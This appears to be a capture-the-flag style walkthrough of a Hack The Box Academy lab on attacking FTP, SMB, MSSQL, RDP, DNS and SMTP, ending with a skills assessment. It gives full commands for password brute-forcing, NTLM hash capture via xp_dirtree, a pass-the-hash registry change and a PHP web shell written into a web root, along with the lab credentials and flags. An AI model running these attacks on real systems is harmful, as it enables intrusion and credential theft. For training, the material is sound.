









# HTB-Attacking_Common_Services
## Table of Contents
1. [FTP](#ftp)
2. [SMB](#smb)
3. [SQL](#sql)
4. [RDP](#rdp)
5. [DNS](#dns)
6. [SMTP](#smtp)
7. [Skills Assessment](#skill-assesment)
    1. [Easy](#easy)

### FTP
#### Tools
1. medusa
2. hydra
#### Challenges
1. What port is the FTP service running on?

    We can solve this by using nmap to find ftp port.

    ```bash
    sudo nmap -sV -sC 10.129.55.8 -v
    ```
    

    The answer is 2121.

2. What username is available for the FTP server?

    Based on the nmap output, the anonymous login is allowed. So i tried to ftp anonymously.

    ```bash
    ftp 10.129.55.8 2121
    ```
    In there, we can find users.list and passwords.list. After download using `get <file name>`, we can bruteforce by using medusa.
    
    ```bash
    medusa -U users.list -P passwords.list -h 10.129.55.8 -n 2121 -M ftp
    ```
    Another way for the faster result is using `hydra`.

    ```bash
    sudo hydra -L users.list -P passwords.list -t 32 -s 2121 ftp://10.129.55.8
    ```
    Then we will get `robin:7iz4rnckjsduza7` credential. The answer is `robin`.

3. Using the credentials obtained earlier, retrieve the flag.txt file. Submit the contents as your answer.

    By using the credential that we found, we can get the flag. The answer is `HTB{ATT4CK1NG_F7P_53RV1C3}`.

### SMB
#### Tools
1. impacket-psexec
2. CrackMapExec
3. enum4linux-ng
#### Challenges
1. What is the name of the shared folder with READ permissions?

    We can solve this by using `smbmap` with `-H` flag.

    ```bash
    smbmap -H 10.129.55.8
    ```
    The answer is `GGJ`.

2. What is the password for the username "jason"?

    We can bruteforce by using `crackmapexec` to get the password.

    ```bash
    crackmapexec smb 10.129.55.8 -u "jason" -p pws.list --local-auth
    ```
    The answer is `34c8zuNBo91!@28Bszh`.

3. Login as the user "jason" via SSH and find the flag.txt file. Submit the contents as your answer.

    To solve this, we need `id_rsa` from GGJ shares. We can download it by using jason credential.

    ```bash
    smbmap -H 10.129.55.8 -u 'jason' -p '34c8zuNBo91!@28Bszh' --download "GGJ\id_rsa"
    ```
    Ater that, change id_rsa permission (600). Then we can ssh to there.

    ```bash
    ssh -o KexAlgorithms=diffie-hellman-group14-sha256 -o Ciphers=aes256-ctr -i id_rsa jason@10.129.203.6 -v
    ```
    The answer is `HTB{SMB_4TT4CKS_2349872359}`.

## SQL
1. responder
2. mssqlclient
### Challenges
1. What is the password for the "mssqlsvc" user?

    To solve this, first we need to setup responder to capture the hash.

    ```bash
    responder -I tun0
    ```
    Then we run mssqlcient.
    ```bash
    mssqlclient.py -p 1433 htbdbuser@10.129.163.211
    ```
    In there, we can perform this sql query to do hash stealing.
    ```bash
    EXEC master..xp_dirtree '\\10.10.14.16\share\'
    ```

    

    The responder will capture the hash. Then we use hashcat to crack it.

    ```bash
    hashcat -m 5600 hash.txt /home/mrwhok/ctf/HTB-Academy/footprinting/rockyou.txt
    ```

    The answer is `princess1`.

2. Enumerate the "flagDB" database and submit a flag as your answer.

    We can login with mssqlclient again by using the credential we just found.

    ```bash
    mssqlclient.py -p 1433 mssqlsvc@10.129.163.211 -windows-auth
    ```
    Then we can examine the database and get the flag. Here the flow of it.

    ```bash
    SQL (WIN-02\mssqlsvc  guest@master)> SELECT name FROM sys.databases;
    name      
    -------   
    master    

    tempdb    

    model     

    msdb      

    hmaildb   

    flagDB    

    SQL (WIN-02\mssqlsvc  guest@master)> use flagDB;
    ENVCHANGE(DATABASE): Old Value: master, New Value: flagDB
    INFO(WIN-02\SQLEXPRESS): Line 1: Changed database context to 'flagDB'.
    SQL (WIN-02\mssqlsvc  WINSRV02\mssqlsvc@flagDB)> SELECT name FROM sys.tables;
    name      
    -------   
    tb_flag   

    SQL (WIN-02\mssqlsvc  WINSRV02\mssqlsvc@flagDB)> SELECT * FROM tb_flag;
    flagvalue                              
    ------------------------------------   
    b'HTB{!_l0v3_#4$#!n9_4nd_r3$p0nd3r}'   

    SQL (WIN-02\mssqlsvc  WINSRV02\mssqlsvc@flagDB)> 
    ```
    The answer is `HTB{!_l0v3_#4$#!n9_4nd_r3$p0nd3r}`.

## RDP
### Tools
1. crowbar 
2. hydra
### Challenges
1. What is the name of the file that was left on the Desktop? (Format example: filename.txt)

    We can solve this by rdp to the target. In here i used `rdesktop`.

    ```bash
    rdesktop -u htb-rdp -p HTBRocks! 10.129.203.13
    ```
    Then we can explore the desktop. The answer is `pentest-notes.txt`.

2. Which registry key needs to be changed to allow Pass-the-Hash with the RDP protocol?

    The answer is `DisableRestrictedAdmin`.

3. Connect via RDP with the Administrator account and submit the flag.txt as you answer.

    In the `pentest-notes.txt`, we can find admin credential with its hash (Administrator:0E14B9D6330BF16C30B1924111104824). Then to do xfreerdp with it, we must add new registry key.

    ```powershell
    reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
    ```
    Then we can connect by using xfreerdp.

    ```bash
    xfreerdp /v:10.129.79.70 /u:Administrator /pth:0E14B9D6330BF16C30B1924111104824
    ```
    The answer is `HTB{RDP_P4$$_Th3_H4$#}`.

## DNS
### Tools
1. fierce
2. subfinder 
3. subbrute
4. gobuster
### Challenges
1. Find all available DNS records for the "inlanefreight.htb" domain on the target name server and submit the flag found as a DNS record as the answer.

    First, we need add `10.129.71.121 inlanefreight.htb` to the `/etc/hosts`. Then i used gobuster to bruteforce.

    ```bash
    gobuster dns -d inlanefreight.htb -w ./names.txt -r 10.129.71.121 -t 500
    ```
    

    Then we can try `dig AXFR @10.129.71.121 <gobuster result>`. The correct one is `hr.inlanefreight.htb`. So when we run dig on it, we get the flag. The answer is `HTB{LUIHNFAS2871SJK1259991}`.

## SMTP
### Tools
1. smtp-user-enum
### Challenges
1. What is the available username for the domain inlanefreight.htb in the SMTP server?

    To find valid user, we can use `smtp-user-enum`.

    ```bash
    smtp-user-enum -M RCPT -U users.list -D inlanefreight.htb -t 10.129.190.116
    ```

    

    The answer is `marlin`.

2. Access the email account using the user credentials that you discovered and submit the flag in the email as your answer.

    After we have valid username, `marlin@inlanefreight.htb`, we can use hydra to find the password.

    ```bash
    hydra -l marlin@inlanefreight.htb -P pws.list 10.129.190.116 pop3
    ```
    The password is `poohbear`. Then we can use telnet to get the flag.

    ```bash
    telnet 10.129.190.116 110
    ```

    

    The answer is `HTB{w34k_p4$$w0rd}`.

# Skill Assesment
## Easy

1. You are targeting the inlanefreight.htb domain. Assess the target server and obtain the contents of the flag.txt file. Submit it as the answer.

    First we enumerate the server by using nmap.

    ```bash
    sudo nmap -sV -sC 10.129.9.182 -v
    ```

    Here the result.
    ```bash
    PORT     STATE SERVICE       VERSION
    21/tcp   open  ftp
    | ssl-cert: Subject: commonName=Test/organizationName=Testing/stateOrProvinceName=FL/countryName=US
    | Issuer: commonName=Test/organizationName=Testing/stateOrProvinceName=FL/countryName=US
    | Public Key type: rsa
    | Public Key bits: 2048
    | Signature Algorithm: shaWithRSAEncryption
    | Not valid before: 2022-04-21T19:27:17
    | Not valid after:  2032-04-18T19:27:17
    | MD5:   27ed:2da8:8b25:57e3:d2fc:c0c8:9f0b:55b0
    |_SHA-1: 5018:d8d5:ba6b:5a1c:8df6:5969:45d7:fe06:3d32:7fad
    | fingerprint-strings:
    |   GenericLines:
    |     220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
    |     Command unknown, not supported or not allowed...
    |     Command unknown, not supported or not allowed...
    |   Help:
    |     220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
    |     214-The following commands are implemented
    |     USER PASS ACCT QUIT PORT RETR
    |     STOR DELE RNFR PWD CWD CDUP
    |     NOOP TYPE MODE STRU
    |     LIST NLST HELP FEAT UTF8 PASV
    |     MDTM REST PBSZ PROT OPTS CCC
    |     XCRC SIZE MFMT CLNT ABORT
    |     HELP command successful
    |   NULL, SMBProgNeg:
    |     220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
    |   SSLSessionReq:
    |     220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
    |_    Command unknown, not supported or not allowed...
    |_ssl-date: 2025-10-24T09:08:03+00:00; -1s from scanner time.
    25/tcp   open  smtp          hMailServer smtpd
    | smtp-commands: WIN-EASY, SIZE 20480000, AUTH LOGIN PLAIN, HELP
    |_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
    80/tcp   open  http          Apache httpd 2.4.53 ((Win64) OpenSSL/1.1.1n PHP/7.4.29)
    |_http-favicon: Unknown favicon MD5: 56F7C04657931F2D0B79371B2D6E9820
    | http-title: Welcome to XAMPP
    |_Requested resource was http://10.129.9.182/dashboard/
    |_http-server-header: Apache/2.4.53 (Win64) OpenSSL/1.1.1n PHP/7.4.29
    | http-methods:
    |_  Supported Methods: GET HEAD POST
    443/tcp  open  https
    |_ssl-date: 2025-10-24T09:07:58+00:00; -1s from scanner time.
    | ssl-cert: Subject: commonName=Test/organizationName=Testing/stateOrProvinceName=FL/countryName=US
    | Issuer: commonName=Test/organizationName=Testing/stateOrProvinceName=FL/countryName=US
    | Public Key type: rsa
    | Public Key bits: 2048
    | Signature Algorithm: shaWithRSAEncryption
    | Not valid before: 2022-04-21T19:27:17
    | Not valid after:  2032-04-18T19:27:17
    | MD5:   27ed:2da8:8b25:57e3:d2fc:c0c8:9f0b:55b0
    |_SHA-1: 5018:d8d5:ba6b:5a1c:8df6:5969:45d7:fe06:3d32:7fad
    587/tcp  open  smtp          hMailServer smtpd
    | smtp-commands: WIN-EASY, SIZE 20480000, AUTH LOGIN PLAIN, HELP
    |_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
    3306/tcp open  mysql         MySQL 5.5.5-10.4.24-MariaDB
    | mysql-info:
    |   Protocol: 10
    |   Version: 5.5.5-10.4.24-MariaDB
    |   Thread ID: 10
    |   Capabilities flags: 63486
    |   Some Capabilities: LongColumnFlag, FoundRows, IgnoreSpaceBeforeParenthesis, Support41Auth, Speaks41ProtocolNew, ODBCClient, SupportsLoadDataLocal, SupportsTransactions, Speaks41ProtocolOld, ConnectWithDatabase, IgnoreSigpipes, SupportsCompression, InteractiveClient, DontAllowDatabaseTableColumn, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
    |   Status: Autocommit
    |   Salt: OO|D|db=J:&L-<$@Uk<'
    |_  Auth Plugin Name: mysql_native_password
    3389/tcp open  ms-wbt-server Microsoft Terminal Services
    |_ssl-date: 2025-10-24T09:08:01+00:00; -1s from scanner time.
    | ssl-cert: Subject: commonName=WIN-EASY
    | Issuer: commonName=WIN-EASY
    | Public Key type: rsa
    | Public Key bits: 2048
    | Signature Algorithm: sha256WithRSAEncryption
    | Not valid before: 2025-10-23T09:02:56
    | Not valid after:  2026-04-24T09:02:56
    | MD5:   9f0b:5009:422c:1957:11fa:30e1:b7da:889e
    |_SHA-1: afd5:463e:ed0b:ce8c:d137:c916:5b35:56af:5dcd:563b
    ```
    Based on that, we can see it have smtp, ftp, mysql, http, and https service running. In here, i tried to bruteforce smtp fo find valid user by using `smtp-user-enum`.

    ```bash
    smtp-user-enum -M RCPT -U users.list -D inlanefreight.htb -t 10.129.9.182
    ```
    

    We can see, `fiona@inlanefreight.htb` is exist. In here, i have tried to bruteforce SMTP by using hydra but it fail. Then i tried to bruteforce ftp with username `fiona`.

    ```bash
    hydra -l fiona -P /home/mrwhok/ctf/HTB-Academy/footprinting/rockyou.txt ftp://10.129.9.182
    ```
    
    
    We get valid ftp credential `fiona:987654321`. Then we can ftp to there by using telnet.

    ```bash
    ftp 10.129.9.182
    ```
    In there we can see 2 files, docs.txt and WebServersInfo.txt. Here the content of WebServersInfo.txt.

    ```txt
    CoreFTP:
    Directory C:\CoreFTP
    Ports: 21 & 443
    Test Command: curl -k -H "Host: localhost" --basic -u <username>:<password> https://localhost/docs.txt

    Apache
    Directory "C:\xampp\htdocs\"
    Ports: 80 & 4443
    Test Command: curl http://localhost/test.php
    ```

    We can see it have apache server with xampp in the specific folder. So in here, we can try to sql injection. Surprisingly we can use fiona credential to login via mysql.

    ```bash
    mysql -h 10.129.9.182 -u fiona -p987654321
    ```
    In the mysql setion, we can write a php shell into that folder..

    ```SQL
    SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE 'C:\\xampp\\htdocs\\shell.php
    ```
    To check if its work, we can test by using whoami.

    ```bash
    curl http://inlanefreight.htb/shell.php?c=whoami
    ```
    

    Based on that, the shell is work. So now, we can locate the flag. Dont forget to encode the payload.

    ```bash
    curl http://inlanefreight.htb/shell.php?c=dir%20C:%5Cflag.txt%20/s%20/b
    ```
    

    We can see, the path of the flag is `C:\Users\Administrator\Desktop\flag.txt`. Then we can retrive the flag by using type command.

    ```bash
    curl http://inlanefreight.htb/shell2.php?c=type%20C:%5CUsers%5CAdministrator%5CDesktop%5Cflag.txt
    ```
    The flag is `HTB{t#3r3_4r3_tw0_w4y$_t0_93t_t#3_fl49}`.